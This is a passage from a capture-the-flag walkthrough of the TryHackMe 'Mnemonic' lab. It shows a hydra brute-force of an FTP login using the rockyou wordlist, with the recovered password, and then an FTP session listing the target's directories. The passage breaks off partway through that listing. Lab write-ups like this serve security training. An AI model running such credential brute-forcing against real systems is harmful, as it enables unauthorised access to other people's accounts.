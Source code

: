 ~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mnemonic/files]
└─$ cat backups/note.txt 
@vill

James new ftp username: ftpuser
we have to work hard
            
~~~

Great! Now we have the ftp username.

FTP username: `ftpuser`

### 3.2 - ftp password?

Now that we have the usrename, we can try to brute-force the password. I used `hydra` and `rockyou` wordlist:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mnemonic/files]
└─$ hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://$IP/
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-04 03:36:51
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.64.17:21/
[STATUS] 256.00 tries/min, 256 tries in 00:01h, 14344142 to do in 933:52h, 16 active
[STATUS] 252.33 tries/min, 757 tries in 00:03h, 14343641 to do in 947:25h, 16 active
[21][ftp] host: 10.10.64.17   login: ftpuser   password: love4ever
1 of 1 target successfully completed, 1 valid password found
~~~

FTP password: `love4ever`

### 3.3 - What is the ssh username?

Now that we have creds for ftp, let's see what we can find there. There are a few directories in there. All of them are empty except one: `data-4`. There are `id_rsa` and `not.txt` inside it, so I downloaded them:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mnemonic/files]
└─$ ftp $IP
Connected to 10.10.64.17.
220 (vsFTPd 3.0.3)
Name (10.10.64.17:user): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------   12 1003     1003         4096 Jul 14  2020 .
drwx------   12 1003     1003         4096 Jul 14  2020 ..
lrwxrwxrwx    1 1003     1003            9 Jul 14  2020 .bash_history -> /dev/null
-rw-r--r--    1 1003     1003          220 Jul 13  2020 .bash_logout
-rw-r--r--    1 1003     1003         3771 Jul 13  2020 .bashrc
-rw-r--r--    1 1003     1003          807 Jul 13  2020 .profile
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-1
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-10
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-2
~~~